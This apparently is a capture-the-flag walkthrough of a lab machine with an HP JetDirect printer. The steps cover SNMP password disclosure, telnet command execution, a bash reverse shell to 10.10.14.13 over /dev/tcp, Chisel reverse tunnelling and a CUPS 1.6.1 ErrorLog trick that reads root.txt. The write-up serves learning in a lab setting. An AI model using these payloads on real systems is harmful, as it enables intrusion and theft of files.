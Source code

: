 1. Run nmap to discover open ports and services from the web server.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/72d9eac3-875f-4d28-a456-57a2e32964c8)

2. From the result, it shows telnet service so we try to telnet the ip address and been asked to input a password.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/dc894ff0-033e-4f32-a91d-52ab67f7d696)

3. Let's check from the udp port with nmap.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/746ff511-077e-4cbe-be97-4c25105ca817)

4. We discover that a SNMP port 161 is opened. Next, we googling all the way to find any vulnerability related to snmp and HP JetDirect and found this [link](https://www.exploit-db.com/exploits/22319) where's about HP JetDirect password disclosure. We can execute `snmpwalk -v 2c -c public 10.10.11.107 .1.3.6.1.4.1.11.2.3.9.1.1.13.0`
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/7896ce2a-bf3b-47e4-a7cc-0922bede6aa0)

5. Seems like an ascii sequence. To decode we can use this [tool](https://www.dcode.fr/ascii-code) and the password is P@ssw0rd@123!!123
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/8b3f6da9-ef59-4f60-9505-96e251084c2e)

6. Input the password and we try to input `ls` directly first and it isn't working so we try add exec in front of the input. The flag is found in user.txt.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/1dc5128e-7c17-4794-a22a-a63b677e0914)

7. Another vulnerability is we can do reverse shell with this payload `exec bash -c "bash -i >& /dev/tcp/10.10.14.13/777 0>&1"`. 
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/8663694e-0aa4-480e-9e5d-1df1e48d086e)
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/4483c745-329f-4450-ba1c-8563d9c0502e)

8. Checking one by one directory and not find any interesting thing. Let's check the network stats.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/1efa4b48-0667-4cce-943e-0f13bc13e07e)

9. The second one is quite suspicious because it runs locally. We can't check directly because it runs on target machine, not our machine. Don't worry, we can use tool called [Chisel](https://github.com/jpillora/chisel) to give access so we can access the target machine localhost in our terminal. We can run `python3 -m http.server 80` in our machine and `wget <ip address>/<chiselfile>` for give the chisel file to target machine.<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/b95cd0bb-2d88-47fd-837c-48c2785d6595)
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/0b89b912-658b-4465-bea6-11ec0a4de0eb)

10. Now we do a small reverse shell with chisel. We can run this payload and here's the response. When we opened, it's a CUPS 1.6.1 web server.
Target Terminal:
`./chisel_1.9.1_linux_amd64 client 10.10.14.13:888 R:631:localhost:631`

Host Terminal:
`./chisel_1.9.1_linux_amd64 server -p 888 --reverse`

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/c1e501c3-5b8b-4c2b-9cce-7f090c8a30b2)
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/9a8a6ef1-1790-4cdb-91fa-918d7372cf75)
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/606ea037-8368-4529-be17-ffd80ec31662)

11. Open administration page (admin) and we get these features.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/1d643aa7-6d53-48c8-a1af-eac38c318f34)

12. Googling to find any vulnerability related to CUPS 1.6.1 and found this [article](https://www.rapid7.com/db/modules/post/multi/escalate/cups_root_file_read/). It describes that the cupsd daemon change any input inside the error log as a plaintext.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/6a7fd4fc-3926-4f07-96c9-466791558123)

13. Because it's related to error log, next we open the `view error log` feature in administration page and it looks like this.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/7120d6bf-7363-4dbd-9a3a-d3bec38af0f2)

14. Now we are searching the payload that are related to CUPS 1.6.1 and error log. Then we find this [payload](https://www.infosecmatter.com/metasploit-module-library/?mm=post/multi/escalate/cups_root_file_read)
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/79e12161-9fc5-48a5-9e90-f4d0e78da5ae)

15. Now we just need to run `cupsctl ErrorLog="/root/root.txt"`. This means that the cupsctl give the input to ErrorLog so the cupsd daemon can translate it into plaintext as a bash command. To see the response, we can run `curl 127.0.0.1:631/admin/log/error_log?` and get the root flag!<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/fe90d7d5-38a1-4140-8ae7-303880c4e91f)





